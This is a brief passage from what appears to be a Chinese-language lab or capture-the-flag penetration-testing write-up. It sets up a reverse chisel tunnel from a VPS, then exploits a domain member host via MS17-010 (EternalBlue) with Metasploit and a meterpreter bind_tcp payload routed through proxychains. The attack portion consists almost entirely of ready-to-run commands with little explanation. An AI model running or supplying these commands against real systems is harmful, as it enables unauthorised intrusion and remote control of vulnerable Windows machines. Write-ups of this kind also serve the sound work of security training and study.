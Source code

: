 ## 代理搭建

使用 chisel 搭建代理。

VPS

```bash
./chisel server -p 7000 -reverse
```

[![](assets/1705989181-22580c375d0ef42c85e8b90826ed222a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170003-a142f0d2-b904-1.png)

靶机

[![](assets/1705989181-1383a88a3cbcb4bcba749c5f715ba1b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170008-a4352eea-b904-1.png)

## 攻击域成员一 (MS17-010)

### MSF 攻击

刚刚 Fscan 扫描出了漏洞，直接用 msf 打就好了

```bash
proxychains msfconsole
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.11.45
run
```
